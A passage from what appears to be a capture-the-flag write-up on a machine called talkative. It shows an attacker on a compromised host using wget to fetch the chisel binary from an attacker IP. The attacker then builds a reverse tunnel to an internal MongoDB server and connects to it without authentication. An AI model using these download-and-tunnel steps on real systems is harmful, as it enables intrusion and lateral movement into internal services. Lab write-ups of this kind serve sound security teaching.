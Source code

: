

    saul@talkative:/dev/shm$ wget 10.10.14.6/chisel_1.7.7_linux_amd64
    --2022-08-22 20:18:43--  http://10.10.14.6/chisel_1.7.7_linux_amd64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 8077312 (7.7M) [application/octet-stream]
    Saving to: ‘chisel_1.7.7_linux_amd64’

    chisel_1.7.7_linux_ 100%[===================>]   7.70M  7.43MB/s    in 1.0s    

    2022-08-22 20:18:44 (7.43 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]

    saul@talkative:/dev/shm$ chmod +x ./chisel_1.7.7_linux_amd64 



I'll start `chisel` as a server on my host:



    oxdf@hacky$ /opt/chisel/chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/08/22 20:20:10 server: Reverse tunnelling enabled
    2022/08/22 20:20:10 server: Fingerprint lBroorqb8hNJ1apYMV0NtLd7Urs/x5mHOi9mmaT0ckY=
    2022/08/22 20:20:10 server: Listening on http://0.0.0.0:8000



I'll use port 8000 since Burp is using the default of 8080. I'll also
give the `--reverse` flag to say that I want clients to be able to open
ports on my host.

Now I'll connect from talkative:



    saul@talkative:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:27017:172.17.0.2:27017 
    2022/08/22 20:21:51 client: Connecting to ws://10.10.14.6:8000
    2022/08/22 20:21:52 client: Connected (Latency 86.206267ms)



The server reports success:



    2022/08/22 20:21:51 server: session#1: tun: proxy#R:27017=>172.17.0.2:27017: Listening



#### Enumerate DB

I'll connect with `mongo` (`apt install mongodb-clients`):



    oxdf@hacky$ mongo
    MongoDB shell version v3.6.8
    connecting to: mongodb://127.0.0.1:27017
    Implicit session: session { "id" : UUID("08a04e87-1918-430a-b27e-8e4f9462a6bc") }
    MongoDB server version: 4.0.26
    WARNING: shell and server versions do not match
    Welcome to the MongoDB shell.
    For interactive help, type "help".
    For more comprehensive documentation, see
            http://docs.mongodb.org/
    Questions? Try the support group
            http://groups.google.com/group/mongodb-user
    Server has startup warnings: 
    2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] 
    2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
    2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
    2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] 
    2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.